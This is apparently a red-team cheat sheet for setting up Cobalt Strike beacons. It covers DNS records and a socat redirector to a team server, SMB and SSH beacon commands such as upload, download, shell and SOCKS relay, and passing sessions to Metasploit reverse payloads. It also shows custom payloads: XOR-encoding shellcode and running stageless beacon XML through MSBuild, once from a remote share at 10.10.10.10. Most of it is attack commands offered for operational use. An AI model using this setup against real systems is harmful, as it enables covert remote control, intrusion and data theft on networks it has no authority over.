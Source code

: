 # Cobalt Strike - Beacons

## DNS Beacon

### DNS Configuration

* Edit the `Zone File` for the domain
* Create an `A record` for Cobalt Strike system
* Create an `NS record` that points to FQDN of your Cobalt Strike system

Your Cobalt Strike team server system must be authoritative for the domains you specify. Create a `DNS A` record and point it to your Cobalt Strike team server. Use `DNS NS` records to delegate several domains or sub-domains to your Cobalt Strike team server's `A` record.


Example of DNS on Digital Ocean:

```powershell
NS  example.com                     directs to 10.10.10.10.            86400
NS  polling.campaigns.example.com   directs to campaigns.example.com.	3600
A	campaigns.example.com           directs to 10.10.10.10	            3600 
```

After creating a DNS listener (`Beacon DNS`), verify that your domains resolve to `0.0.0.0`

* `nslookup jibberish.beacon polling.campaigns.domain.com`
* `nslookup jibberish.beacon campaigns.domain.com`

If you have trouble with DNS, you can restart the `systemd` service and force Google DNS nameservers.

```powershell
systemctl disable systemd-resolved
systemctl stop systemd-resolved
rm /etc/resolv.conf
echo "nameserver 8.8.8.8" >  /etc/resolv.conf
echo "nameserver 8.8.4.4" >>  /etc/resolv.conf
```


### DNS Redirector

```ps1
socat -T 1 udp4-listen:53,fork udp4:teamserver.example.net:53
```

Debug the DNS queries with `tcpdump -l -n -s 5655 -i eth0  udp port 53`.


### DNS Mode

| Mode | Description |
| --- | --- |
| `mode dns-txt` | DNS TXT record data channel (default) |
| `mode dns`     | DNS A record data channel |
| `mode dns6`    | DNS AAAA record channel |


## SMB Beacon   

```powershell
link [host] [pipename]
connect [host] [port]
unlink [host] [PID]
jump [exec] [host] [pipe]
```

SMB Beacon uses Named Pipes. You might encounter these error code while running it.

| Error Code | Meaning              | Description                                        |
|------------|----------------------|----------------------------------------------------|
| 2          | File Not Found       | There is no beacon for you to link to              |
| 5          | Access is denied     | Invalid credentials or you don't have permission   |
| 53         | Bad Netpath          | You have no trust relationship with the target system. It may or may not be a beacon there. |


## SSH Beacon

```powershell
# deploy a beacon
beacon> help ssh
Use: ssh [target:port] [user] [pass]
Spawn an SSH client and attempt to login to the specified target

beacon> help ssh-key
Use: ssh [target:port] [user] [/path/to/key.pem]
Spawn an SSH client and attempt to login to the specified target

# beacon's commands
upload                    Upload a file
download                  Download a file
socks                     Start SOCKS4a server to relay traffic
sudo                      Run a command via sudo
rportfwd                  Setup a reverse port forward
shell                     Execute a command via the shell
```


## Metasploit compatibility

* Payload: `windows/meterpreter/reverse_http or windows/meterpreter/reverse_https`
* Set `LHOST` and `LPORT` to the beacon
* Set `DisablePayloadHandler` to `True`
* Set `PrependMigrate` to `True`
* `exploit -j`


## Custom Payloads

```powershell
* Attacks > Packages > Payload Generator 
* Attacks > Packages > Scripted Web Delivery (S)
$ python2 ./shellcode_encoder.py -cpp -cs -py payload.bin MySecretPassword xor
$ C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\Windows\Temp\dns_raw_stageless_x64.xml
$ %windir%\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe \\10.10.10.10\Shared\dns_raw_stageless_x86.xml
```


## References

* [Cobalt Strike > User Guide > DNS Beacon](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/listener-infrastructue_beacon-dns.htm)
* [Simple DNS Redirectors for Cobalt Strike - Thursday 11 March, 2021](https://www.cobaltstrike.com/blog/simple-dns-redirectors-for-cobalt-strike)
* [CobaltStrike DNS Beacon Lab Setup - rioasmara - March 18, 2023](https://rioasmara.com/2023/03/18/cobaltstrike-dns-beacon-lab-setup/)